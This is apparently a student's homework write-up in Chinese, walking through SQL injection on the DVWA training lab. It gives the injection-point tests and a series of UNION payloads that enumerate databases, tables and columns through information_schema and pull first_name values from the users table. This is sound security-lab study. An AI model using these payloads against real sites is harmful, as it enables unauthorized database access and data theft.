 ### 第七周作业

##### 1.通过前端验证的方法判断DVWA中的注入点

输入1‘报错，大概率存在SQL注入漏洞
![image-20241024094559491](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024094559491.png)

1 and 1=1，能查出来，存在注入
![image-20241024095019715](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024095019715.png)

1 and 1=2,可以执行且可以查出结果，有可能是网站对输入进行了特殊处理，故根据隐式转换，还是能查出结果，可以判断为数字型注入

![image-20241024100536773](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024100536773.png)

##### 2.在前端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先判断列数,输入2还可以，输入3就报错了，可判断列数为2列
![image-20241024104624445](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104624445.png)

![image-20241024104725218](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024104725218.png)

判断有无显示位：1' union all select 1,2#
![image-20241024105032423](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105032423.png)

若页面显示位不足： -1' union all select 1,2#,使左边为空值，腾出位置
![image-20241024105349118](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105349118.png)

查询数据库名和用户名：1' union all select database(),user()#,若显示位不够，调换查询参数位置
![image-20241024105735309](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105735309.png)

(补充）解决页面显示位不足：查询结果合并位1行，1' union select 1,group_concat(user) from users#
![image-20241024110958392](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024110958392.png)

爆库名：1' union select schema_name,1 from information_schema.schemata#
![image-20241024122251943](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024122251943.png)

爆表名：1' union select table_name,1 from information_schema.tables where table_schema=database()#
![image-20241024121754036](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024121754036.png)

爆字段名：1' union select column_name,1 from information_schema.columns where table_schema='dvwa' and table_name='users
![image-20241024123303493](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024123303493.png)

拿到first_name：1' union all select first_name,1 from users#
![image-20241024124332930](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124332930.png)

##### 3.在后端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先展示数据库名：show databases;
